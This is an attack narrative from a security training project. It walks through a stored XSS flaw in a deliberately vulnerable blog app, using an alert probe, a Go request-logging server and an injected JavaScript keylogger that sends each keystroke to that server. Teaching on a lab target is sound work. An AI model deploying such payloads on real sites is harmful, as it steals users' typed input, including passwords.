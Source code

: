 # Attack Narrative - Gossip World Blog (XSS)

The main goal of this documentation is to describe how a malicious user could exploit a Cross-Site Scripting vulnerability intentionally installed on Gossip World Blog from secDevLabs.

If you don't know [secDevLabs](https://github.com/globocom/secDevLabs) or this [intended vulnerable web application](https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2017-apps/a7/gossip-world) yet, you should check them before reading this narrative.

----

## Note: This attack narrative works best in Mozilla Firefox.

## 👀

After inspecting the application, it is possible to identify that some entries are not sanitized and can be  executed on web browser. It occurs on *search*, *comment* and *post* fields. The following images show this behavior when the following text  is used as an input on these fields:

```
<script>alert(1)</script>
```

Searching for a post:
   <img src="attack-1.png" align="center"/>
   <img src="attack-2.png" align="center"/>

Adding a new comment to a post:
   <img src="attack-3.png" align="center"/>
   <img src="attack-4.png" align="center"/>

Adding a new post:
   <img src="attack-5.png" align="center"/>
   <img src="attack-6.png" align="center"/>


The missing input validation allows a malicious user inserts some scripts that will persist in the server and be executed on victims browsers every time they access the routes that contain these scripts.

## 🔥

An attacker may abuse these flaws by generating malicious JS code and sending to other users. To demonstrate this, the following example will show how it is possibile to get all keyboard inputs from an user by persisting a malicious code in the server.

First, the following Golang API can be built (main.go) that logs all received requests:

```go
package main

import (
   "fmt"
   "github.com/labstack/echo"
)

func main() {
   e := echo.New()
   e.GET("/:k", handler)
   e.Logger.Fatal(e.Start(":1232"))
}

func handler(c echo.Context) error {
   fmt.Println(c.Request().RemoteAddr, c.Param("k"))
   return nil
}
```
   
To run this code simply type the following in your terminal (you should check this [guide](https://golang.org/doc/install) if you need any help with Golang): 

```sh
go run main.go
```

Then, the attacker can insert a new post through **/newgossip** route using the following code in text field:

```html
   <script>
   var k="";
   document.onkeypress=function(e) {
      e = e || window.event;
      k+=e.key;
      var i=new Image;
      i.src="http://localhost:1232/"+k;
   }
   </script>
```

This code implements a keylogger by capturing all keyboard inputs from users and send them to the API created before.

   <img src="attack-7.png" align="center"/>

When a victim access the post, the browser will interpret the text between the script tag as a code and will execute it secretly. The following image shows the victim typing letters into the page that has been "infected" by the malicious JS:

<img src="attack-8.png" align="center"/>

The attacker now get all thee inputs on the server log, as show bellow: 

<img src="attack-9.png" align="center"/>
